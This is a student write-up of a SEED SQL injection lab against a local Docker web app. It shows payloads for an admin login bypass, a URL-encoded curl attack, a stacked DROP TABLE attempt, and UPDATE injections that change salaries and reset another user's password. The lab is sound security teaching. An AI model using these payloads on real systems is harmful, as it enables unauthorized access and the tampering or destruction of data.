









# SQL Injection Attack Lab
## Setup 
It was made available to us a webapp with a MySQL database. The goal of this lab is to explore SQL Injection vulnerabilities. To start we have to modify our /etc/hosts file so that the IP address of the container contains an IP and url that we want. To do this we edit the file with the following command:
```bash
$ sudo nano /etc/hosts
```
And we add the following line to the file:
```bash
10.9.0.5        www.seed-server.com
```

This way our file knows where the server is located.

After we build the container, we can run the following command to start the server:
```bash
$ dockup
```
Now, our server is running and using 'dockps' we find the id of the container. To enter the container's shell we use the 'docksh' command followed by the container's id:



 In the webapp there are two roles:
 - Admin: has access to all accounts
 - Employee: has access only to his account

## MySql
To see what is in the database, we use the following commands, while we are in the container's shell:
```bash
```bash
 $ mysql -u root -pdees
```


## Attacks using SELECT
### First attack: Login as admin without password
 For this attack, we have to login as admin without password. To do this, we use the following input:


This input makes the server execute the following command:
```sql
    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
    FROM credential
    WHERE name='admin' # and Password='$hashed_pwd'
```
The part of the query that would ask for the password is commented out, so it is not executed. Thus, the server returns us the admin account information.


### Second attack: Login as admin through terminal

Let's perform an attack through an HTTP GET request. An example of an HTTP GET request is the following:
```bash
curl "www.seed-server.com/unsafe_home.php?username=alice&Password=12345"
```
For this attack we will use the same input that we used in the previous attack, using %27 instead of apostrophes and %23 instead of '#'. Thus, our HTTP GET request is as follows:
```bash
curl "www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```
We obtained the html with the admin account information:


### Third attack: Join a new SQL statement
We can join a new SQL statement at the end of the input using ";". With this, we can cause unwanted effects on the server. For example, we can delete the credential table with the following input:
```sql
admin'; DROP TABLE credential; #
```
However, we receive an error message, since the server does not allow the execution of more than one query at a time:


## Attacks using UPDATE
### First attack: change our salary
If we login as an employee, we can access a page that allows us to change our personal data. Since the input in these fields is not sanitized, we can change our own salary with the following input:
```sql
912345678', Salary='9999999
```
With this input, the server executes the following command:
```sql 
UPDATE credential SET
nickname = '$input_nickname',
email = '$input_email',
address = '$input_address',
Password = '$hashed_pwd',
Phone_number = '912345678', Salary='9999999'
WHERE id = $id
```
This way, the salary was changed to the expected:



### Seccond attack: change another employee's salary
To alter the salary of another employee, we use the same technique as in the last attack, but the WHERE will be placed manually by us and we will comment the original WHERE of the statement. Thus, our input is as follows:
```sql
912345678', Salary='1' WHERE name='Boby' #
```
The server executes the following command:
```sql
UPDATE credential SET
nickname = '$input_nickname',
email = '$input_email',
address = '$input_address',
Password = '$hashed_pwd',
Phone_number = '912345678', Salary='1' WHERE name='Boby' # WHERE id = $id
```
As we can see, we changed Boby's salary to 1:


### Third attack: change another employee's password
The technique to change the password will be the same as the previous attack, only the password we will put will have to be already converted to SHA1, we will change the password to 'password'. Our input is as follows:
```sql
912345678', password='5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' WHERE name='Boby' #
```
The server executes the following command:
```sql
UPDATE credential SET
nickname = '$input_nickname',
email = '$input_email',
address = '$input_address',
Password = '$hashed_pwd',
Phone_number = '912345678', Password='5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' WHERE name='Boby' # WHERE id = $id
```
As we can see, Boby's password was changed to 'password' and we can enter his account with that password:


